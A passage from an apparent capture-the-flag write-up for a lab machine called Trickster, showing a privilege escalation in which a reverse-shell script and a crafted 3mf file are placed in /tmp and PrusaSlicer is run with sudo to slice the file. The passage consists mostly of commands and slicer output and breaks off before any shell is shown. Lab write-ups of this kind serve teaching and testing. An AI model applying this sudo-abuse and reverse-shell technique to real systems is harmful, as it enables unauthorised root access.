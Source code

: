 **Full Exploitation Steps**

Below are the full exploitation steps. After we upload the `rev.sh` file and the `TRICKSTER.3mf` files to `/tmp`. Then we add execution rights to the shell script file and use sudo to invoke PrusaSlicer to slice the malicious 3mf file. This will produce some output, but it should eventually result in a reverse shell being returned to the attacking machine.

```shell
adam@trickster:~$ ls /tmp
Crashpad
rev.sh
snap-private-tmp
systemd-private-0107e8b142a84301adb95de1d4622140-apache2.service-jWBGQe
systemd-private-0107e8b142a84301adb95de1d4622140-ModemManager.service-SyD1Mo
systemd-private-0107e8b142a84301adb95de1d4622140-systemd-logind.service-aq56lt
systemd-private-0107e8b142a84301adb95de1d4622140-systemd-resolved.service-C4SEwf
systemd-private-0107e8b142a84301adb95de1d4622140-systemd-timesyncd.service-HYLa6G
TRICKSTER.3mf
vmware-root_801-4248614937
adam@trickster:~$ chmod +x /tmp/rev.sh
adam@trickster:~$ sudo /opt/PrusaSlicer/prusaslicer -s /tmp/TRICKSTER.3mf 
10 => Processing triangulated mesh
10 => Processing triangulated mesh
20 => Generating perimeters
20 => Generating perimeters
30 => Preparing infill
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters
45 => Making infill
10 => Processing triangulated mesh
30 => Preparing infill
20 => Generating perimeters
45 => Making infill
30 => Preparing infill
10 => Processing triangulated mesh
20 => Generating perimeters                                                                                           
45 => Making infill                                                                                                   
30 => Preparing infill                                                                                                
45 => Making infill                                                                                                   
65 => Searching support spots                                                                                         
65 => Searching support spots                                                                                         
65 => Searching support spots                                                                                         
65 => Searching support spots                                                                                         
65 => Searching support spots                                                                                         
69 => Alert if supports needed                                                                                        
print warning: Detected print stability issues:                                                                       
                                                                                                                      
Loose extrusions                                                                                                      
Shape-Sphere, Shape-Sphere, Shape-Sphere, Shape-Sphere                                                                

```